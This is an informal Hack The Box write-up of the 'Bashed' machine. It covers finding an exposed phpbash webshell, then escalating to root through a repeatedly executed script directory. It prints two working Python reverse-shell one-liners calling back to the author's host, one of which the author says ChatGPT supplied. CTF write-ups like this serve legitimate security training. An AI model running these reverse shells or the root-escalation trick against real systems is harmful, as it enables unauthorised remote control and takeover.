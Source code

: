 Bahed - HTB Writeup 
![top](images/bashed/top-bash.png)
The bashed was a simple the box that was already running a webshell then the privileges were escalated by python script.   
The nmap scan revealed the only port 80 with no ssh which is unsusual.  
I opened the site at http and creator of the site has disclosed the information that he incorporated phpbash on this site.  
So i fuzzed directories and appended phpbash.php and found its location at /dev. So there goes the user flag.   
![fuzz](images/bashed/fuzzz-bash.png)
![bash](images/bashed/phpbash-bash.png)
Then i attempted to get reverse shell to my own machine however using basic bash syntax didnt work for some reason.  
Then chatgpt gave me this fuckass long python command to get reverse shell and it worked.  
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9001)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'  

![user](images/bashed/user-bash.png)
After running sudo -l i found out that i can become the scriptmanager user and run scripts with his priveleges.
So i became one.
![scriptm](images/bashed/scriptmanager-bashed.png)
Then i discovered scripts directory in root dir that is owned by the scriptmanager.
There was python program and file generated by this python program.
When i deleted this file it came back meaning that the python program was executed repeatedly.
So what i did was i created new python file where i inserted the fuckass long shell from earlier and BANG i got a neew session running as root.
echo 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9002)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);' > execute.py
